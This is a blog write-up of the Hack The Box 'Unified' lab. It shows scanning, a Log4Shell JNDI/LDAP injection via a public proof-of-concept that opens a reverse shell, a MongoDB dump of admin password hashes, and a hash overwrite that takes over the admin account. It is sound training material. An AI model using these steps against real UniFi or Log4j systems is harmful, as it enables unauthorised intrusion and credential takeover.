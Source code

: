 ```yaml
---
title: 'Unified - HTB Starting Point Tier 2'
description: 'Writeup for Unified box'
pubDate: 'Feb 8 2025'
heroImage: 'blog-placeholder-3.jpg'
---
```



## Unified
*MongoDB, Java, Code Injection*

The final Starting Point on the free tier! This is a momentous occasion. 

**Task 1**  
Which are the first four open ports?  

```bash
nmap -sC $TARGET --min-rate=2000 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 20:16 AEDT
Nmap scan report for 10.129.96.149
Host is up (0.34s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  https-alt
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage

Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

22,6789,8080,8443

**Task 2**  
What is the title of the software that is running running on port 8443?  

Unifi Network

**Task 3**  
What is the version of the software that is running?  

Navigating to the web app, we see `6.4.54`


**Task 4**  
What is the CVE for the identified vulnerability?  

A quick search of "Unifi Network 6.4.54 cve" leads us to a github repo to exploit the log4j vulnerability `CVE-2021-44228`


**Task 5**  
What protocol does JNDI leverage in the injection?  

LDAP.

This [Cloudflare blog](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) specifies that LDAP was the primary focus of the CVE. FRom this blog, it looks like the JNDI interface could load up an arbitrary Java object via LDAP, e.g. `ldap://localhost:389/0=JNDITutorial` finds the JNDITutorial object from the local LDAP server and parses the object to read attributes. If you can control the LDAP URL, you can load up arbitrary objects in a Java runtime environment, and thus is the focus of this vulnerability.

Log4j contained a syntax that allowed the evaluation of a value to place into logs. It took the format `${prefix:name}`. `prefix` would specify the lookup to use, and the `name` would be the target of evaluation. e.g. `${java:version}` to retrieve the java version. Thus if an attacker could get log4j to write `${jndi:ldap://example.com/a}`, then log4j will try and resolve the object from that ldap server - this was added in Log4J2-313. A user-agent is a common field that gets logged.


**Task 6**  
What tool do we use to intercept the traffic, indicating the attack was successful?  

`tcpdump`


**Task 7**  
What port do we need to inspect intercepted traffic for?  

`389` as the LDAP port


**Task 8**  
What port is the MongoDB service running on?  

Default port is 27017. 


It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I will dive in and try to use burpsuite for the first time. A learning experience! 

Reading [this](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article from Sprocket security  
> The vulnerability is in the `rememberme` value issued in the login request
>
> ```
> {"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
> ```

In this situation, I will try and use the POC published by `puzzlepeaches`, found [here](https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file)

... one docker install later ...

```bash
kali$ docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
-u https://$TARGET$:8443 -i <my IP> -p 4444
```

Success! We now have a foothold and can upgrade to a full shell by `script /dev/null -c bash`
> TODO: Why `script /dev/null -c bash`??

![JNDI exploit success using the log4junifi poc](../../../../public/img/blog/htb-starting-point/unified-jndi-exploit.png)

> Learning opportunity
> TODO: Research how the exploit works. Beyond just the vulnerable field. The rogue JNDI stuff would be cool to understand


Once a reverse shell was obtained, we can run `ps aux | grep "mongo"` to find the db is running on port `27117`. 


**Task 9**  
What is the default database name for UniFi applications?  

Now that we know mongo is running, there should be a cli tool to interact with it. We should be able to determine the available db names, users, etc. as we continue to work through the [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi).

Coming back a week later, by playing around in the terminal, we find a `mongo` command where we can connect to the db. Using this, we can find the db name:

```bash
unifi@unified$ mongo localhost:27117
connecting to: mongodb://localhost:27117/test
...
> show dbs
ace
ace_stat
admin
config
local
```

From some research, we see that the bottom three are default databases. (Interesting note, I could connect to any path `mongo localhost:27117/<path>` and could see the same data). In any case, looks like `ace` is the default db for Unifi applications


**Task 10**  
What is the function we use to enumerate users within the database in MongoDB?  

Now that we know to the `ace` db is of interest, let's connect to that. It also seems that we can use the syntax `db.<collection>.find()` to list out all objects of a collection. 

```bash
> use ace
> db.getCollectionNames()
  [ ..., 'admin', ...]
> db.admin.find()

// Dump of admins from mongodb
...
{ "_id" : ObjectId("61ce4a63fbce5e00116f424f"), "email" : "michael@unified.htb", "name" : "michael", "x_shadow" : "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0", "requires_new_password" : false, "time_created" : NumberLong(1640909411), "last_site_name" : "default", "email_alert_enabled" : false, "email_alert_grouping_enabled" : false, "email_alert_grouping_delay" : 60, "push_alert_enabled" : false }
...
```


`db.admin.find()`
 

**Task 11**  
What is the function we use to update users within the database in MongoDB?  

`db.admin.update()`


**Task 12**  
What is the password for the root user?  

If we are finding the password, that probably means hash cracking. We got a few hashes from the mongo dump of users. Alternatively, we could try and leverage some mongo permissions to dump the shadow file.  Alternatively, we could try and update one of the user's passwords to gain access to the web app and see what we can do from there. The Sprocket Security article mentioned that ssh credentials can be viewed in plaintext from the portal.

Given the hashes use `$6$`, we'll want to create a SHA512 hash.

```bash
kali$ mkpasswd -m sha-512 password
$6$wQnvejiVUBrqWKcA$gTXH4ZzLxO0ydYMQsEDDimo5G6qfcetNNx/jyotyPpSIw1OagFmX/l1/83wEI.i5xZHIRToV1lCqv8dQAwZ.4.

mongo> db.admin.update({name: "administrator"},{$set:{"x_shadow":"$6$wQnvejiVUBrqWKcA$gTXH4ZzLxO0ydYMQsEDDimo5G6qfcetNNx/jyotyPpSIw1OagFmX/l1/83wEI.i5xZHIRToV1lCqv8dQAwZ.4."}})

> db.admin.find({"name": "administrator"}).forEach(printjson)
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$wQnvejiVUBrqWKcA$gTXH4ZzLxO0ydYMQsEDDimo5G6qfcetNNx/jyotyPpSIw1OagFmX/l1/83wEI.i5xZHIRToV1lCqv8dQAwZ.4.",
...
```

Success! We now have access.
![Access to Unifi web portal](../../../../public/img/blog/htb-starting-point/unified-web-access.png)

Heading to settings, we see a "Device Authentication" section designed to access other Unifi devices. In any case, we see the username is root, and the password is a simple click away

`NotACrackablePassword4U2022`.

**Task 13**  
Submit user flag  

Once obtaining a reverse shell in task 9, we find the flag in `/home/michael/user.txt`:  
`6ced1a6a89e666c0620cdb10262ba127`


**Task 14**  
Submit root flag  

From our nmap scan earlier, we saw ssh was open. Let's try that

```bash
kali$ ssh root@$TARGET
...
root@unified# cat ~/root.txt
e50bc93c75b634e4b272d2f771c33681

